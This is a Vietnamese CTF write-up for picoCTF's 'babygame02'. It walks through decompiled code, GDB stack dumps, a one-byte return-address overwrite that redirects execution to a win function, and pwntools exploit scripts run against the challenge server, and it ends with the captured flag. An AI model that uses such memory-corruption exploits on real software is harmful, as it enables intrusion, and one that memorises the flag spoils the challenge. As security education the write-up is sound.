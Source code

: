 # Babygame02
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4[2]; // [esp+0h] [ebp-AA0h] BYREF
  char v5[2700]; // [esp+Bh] [ebp-A95h] BYREF
  char v6; // [esp+A97h] [ebp-9h]
  int *v7; // [esp+A98h] [ebp-8h]

  v7 = &argc;
  init_player(v4);
  init_map(v5, v4);
  print_map(v5);
  signal(2, (__sighandler_t)sigint_handler);
  do
  {
    do
    {
      v6 = getchar();
      move_player(v4, v6, (int)v5);
      print_map(v5);
    }
    while ( v4[0] != 29 );
  }
  while ( v4[1] != 89 );
  puts("You win!");
  return 0;
}
```
chall này game giống hệt chall `babygame01` tuy nhiên có một số điểm khác. Ta không có câu lệnh gọi tới win. Ý tưởng ban đầu là `ret2win`. Vì thế ta cần 1 bug có thể `overwrite` được địa chỉ nào đó về `win`. 

    *(_BYTE *)(v4[1] + v5 + 90 * *v4) = 46

Tớ nghĩ tới câu lệnh giúp ta exploit chall `babygame01` tuy là có thể `overwrite` thành win nhưng mà nó set 1 byte sau cùng của giá trị đấy thành `46`. Điều này k có ý nghĩa lắm. Mình để ý thấy địa chỉ ret của `move_player` với win chỉ khác nhau mỗi byte cuối =)) hê hê. 

```c
result = (_BYTE *)(v4[1] + v5 + 90 * *v4);
*result = player_tile;
```
Lệnh này giống lệnh trên tuy nhiên nó k set byte sau cùng (sau cùng theo little endian) thành 46, nó set thành `player_tile`, mà `player_tile` ta có thể thay đổi theo ý muốn bằng phím `'l'`

```c
if ( v6 == 'l' )
    player_tile = getchar();
```
Đặt break point ngay lệnh ret của `move_player` lúc này `retAddr` đang được lưu trong stack :

```java
---[0xffffc71c]---│+0x0000: 0x08049709  →  <main+149> add esp, 0x10      ← $esp
0xffffc720│+0x0004: 0xffffc738  →  0x00000004
0xffffc724│+0x0008: 0xffffffc6
0xffffc728│+0x000c: |---[0xffffc743]---|  →  "..................................................[...]"
0xffffc72c│+0x0010: 0x080496eb  →  <main+119> mov BYTE PTR [ebp-0x9], al
0xffffc730│+0x0014: 0xf7ffd020  →  0xf7ffd9d0  →  0x00000000
0xffffc734│+0x0018: 0x00000000
0xffffc738│+0x001c: 0x00000004
0xffffc73c│+0x0020: 0x00000004
0xffffc740│+0x0024: 0x2e000000
gef➤  p win
$1 = {<text variable, no debug info>} 0x804975d <win>
```
Ta có: địa chỉ chứa `retAddr` của `move_player` là `0xffffc71c`, địa chỉ của map `v5` là `0xffffc743` và địa chỉ của `win` là `0x804975d`

Vẫn là phép tính cũ : `(v4[1] + v5 + 90 *v4[0]) = 0xffffc71c` với `v5 = 0xffffc743` và `v4[1]` là chỉ số cột, `v4[0]` là chỉ số hàng `(v4[1]<89, v4[0]<29)`. Nếu cố định `v4[1]` rồi tìm `v4[0]` thì sẽ khá tốn công bởi vì phải chia cho `90` vì vậy ta nên cố định `v4[0]` rồi tìm `v4[1]`. 

Với `v4[0] = 0` thì `v4[1] = 0xffffc71c - 0xffffc743 = -39` (hàng 0 cột -39). Lúc chạy thử và debug thì vô tình ta đã set địa chỉ trong `eax` thành địa chỉ không hợp lệ dẫn đến crash và `eax` thì chứa toàn bộ map của ta

    $eax   : 0xffffc73f  →  "@.................................................[...]"
    ...
    $eax   : 0x40ffc73f

Do đó ta đành tìm cặp khác: với `v4[0] = 1 thì v4[1] = -129` điều này còn tệ hơn trường hợp trước. Ta cần `v4[1]` phải dương nếu không sẽ gặp lỗi tương tự.

Với `v4[0] = -1`, `v4[1] = 51` (hàng -1 cột 51) hoàn toàn hợp lệ. Test thì k gặp lỗi `SIGSEGV` nữa. Bây giờ địa chỉ của phép tính trên đã là nơi chứa `retAddr` của `move_player` rồi, giờ chỉ còn set byte cuối của `ret` thành `win` là hoàn thành. Do chỉ khác 1 byte sau nên chỉ cần set `player_tiles` thành `\x5d` là đủ

## Exploit
do phải gửi theo byte nên viết script vậy =))

```python
from pwn import *
exe = ELF('game', checksec=False)
p = process(exe.path)
p.sendlineafter(b'\n', b'l\x5d')
p.sendlineafter(b'\n', b'd'*47)
p.sendlineafter(b'\n', b'w'*5)
p.interactive()
```
Do lúc đầu move player tới vị trí cần thiết thì chương trình lại k set player_tiles nên tớ set trước =))
Chạy trên Local ok rồi

```java
..........................................................................................
.........................................................................................X
flag.txt not found in current directory
[*] Got EOF while reading in interactive
```

```java
..........................................................................................
.........................................................................................X
[*] Got EOF while reading in interactive
$
```

Uhhhggg. Chưa hiểu lý do tại sao nó lại không in ra flag, test trên local thì chạy được. Sau khi thử nhảy đến các câu lệnh phía sau win thì cuối cùng cũng có flag :v

```java
gef➤  disas win
Dump of assembler code for function win:
   0x0804975d <+0>:     push   ebp
   0x0804975e <+1>:     mov    ebp,esp
   0x08049760 <+3>:     push   ebx
   0x08049761 <+4>:     sub    esp,0x44
   0x08049764 <+7>:     call   0x8049140 <__x86.get_pc_thunk.bx>
   0x08049769 <+12>:    add    ebx,0x2897
   0x0804976f <+18>:    nop
   0x08049770 <+19>:    nop
   0x08049771 <+20>:    nop
   0x08049772 <+21>:    nop
   0x08049773 <+22>:    nop
   0x08049774 <+23>:    nop
   0x08049775 <+24>:    nop
   ...
```
```python
from pwn import *
p = remote('saturn.picoctf.net',52427)
p.sendlineafter(b'\n', b'l\x61')
p.sendlineafter(b'\n', b'd'*47)
p.sendlineafter(b'\n', b'w'*5)
p.interactive()
```

```java
..........................................................................................
..........................................................................................
.........................................................................................X
picoCTF{gamer_jump1ng_4r0unD_7a26c512}[*] Got EOF while reading in interactive
$
```
`flag: picoCTF{gamer_jump1ng_4r0unD_7a26c512}`